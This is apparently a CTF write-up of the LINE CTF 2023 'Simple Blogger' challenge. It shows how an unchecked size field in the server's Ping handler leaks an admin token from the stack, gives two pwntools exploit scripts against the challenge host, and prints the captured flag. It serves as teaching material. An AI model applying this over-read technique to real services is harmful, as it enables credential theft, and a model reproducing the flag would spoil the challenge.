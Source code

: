 ```yaml
---
layout: post
title: (CTF) LINE CTF 2023 writeup
categories: [Writeup]
tags : [writeup, CTF, LINECTF]
date : 2023-03-30 22:22:00 +0900
toc: true
comments: false
mermaid: false
math: false
author : Inseo An
---
```


# LINECTF 2023
## Simple Blogger
- This Challenge has two binary client_nix, server_nix 
### Client_nix
Client_nix provides several menus including Ping, login, logout and flag...

### Server_nix
Server_nix processes client input and sends a response to client 

The Vulnerability is in Ping function.

- Background Knowledge
    - the data struct that client send to server is simply below

        ``` python
        Struct data{
        # offset : name (size)
        0: success_flag (1)
        1: option_num (1)
        2: token (16)
        18: size_bigendian (2)
        - custom data
        20 ~ : Data
        }
        ```

    - the opposite is

        ``` python
        Struct data{
        # offset : name (size)
        0: success_flag (1)
        1: undefined (1)
        2: size (2)
        - custom data
        4 ~ : Data
        }
        ```

If client runs 'Ping', client receives 'Pong'

![1](https://i.imgur.com/sAOHhQc.png)

The detail process step is as follows:
1. Client send data below

    ```
    data = b'\x01\x01'
    data += b'\x00'*0x10
    data += b'\x00\x04'
    data += b'PING'
    ```

2. Server receives data, processes with them

2-1. Generally follow below logic save data to temp buffer
    ![2](https://i.imgur.com/97Vcc4l.png)
    The important element is
    
    ```
    a2+0x18 = size;
    ```

    2-2. And Call Ping Function
    ![3](https://i.imgur.com/MqfeG4e.png)

    (v9 == a2)
    sub_4025DC is Ping function, the 7th argument is size saved at the above logic
    2-3. Memcpy and return
    ![4](https://i.imgur.com/Y58G4a4.png)
    (sub_4013F6 is send response function, a7 == 7th argument )
    In the function, move data to response buffer via memcpy. Because the size using memcpy is a7, then can leak stack data. The admin token loaded from the above sql api exists in stack. 
    
4. Server sends a response to client   

    ```
    data = b'\x01'
    data += b'\x00\x04'
    data += b'PONG'
    ```

4. Client puts 'PONG'

---
Exploit code is below
- token leak

    ```python
    from pwn import *
    import struct, os, binascii

    HOST = '34.146.54.86'
    PORT = 10007
    TIMEOUT = 3

    def extract_sess(auth_res):
        sess = auth_res[4:]
        return sess

    def clear_db():
        payload = b'\x01\x01'
        payload += b'a'*0x10
        payload += b'\x03\x04'
        payload += b'PING'
        return payload

    def connect(payload):
        r = remote(HOST, PORT)
        r.send(payload)
        data = r.recvrepeat(TIMEOUT)
        r.close()
        return data

    r = remote(HOST, PORT)
    r.send(clear_db())
    r.recvuntil("PONG")
    data = r.recvrepeat(TIMEOUT)
    r.close()
    print(binascii.hexlify(data[:16]), end="")
    ```
    
- auth and get flag

    ```python
    from pwn import *
    import struct, os, binascii

    HOST = '34.146.54.86'
    PORT = 10007
    TIMEOUT = 3

    def extract_sess(auth_res):
        sess = auth_res[4:]
        return sess

    def clear_db():
        payload = b'\x01\x01'
        payload += b'a'*0x10
        payload += b'\x03\x04'
        payload += b'PING'
        return payload

    def connect(payload):
        r = remote(HOST, PORT)
        r.send(payload)
        data = r.recvrepeat(TIMEOUT)
        r.close()
        return data

    r = remote(HOST, PORT)
    token1 = 0x9649dac3db7f5cd3
    token2 = 0xe950d705b03a91c2
    payload = b'\x01\x06'
    payload += p64(token1,endian="big")
    payload += p64(token2,endian="big")
    payload += b'\x03\x04'
    payload += b'PING'
    r.send(payload)
    data = r.recvrepeat(TIMEOUT)
    r.close()
    print(data)
    ```

![5](https://i.imgur.com/mTkomoj.png)

`LINECTF{2b9598e3eca50122436702e10877cdce}`

---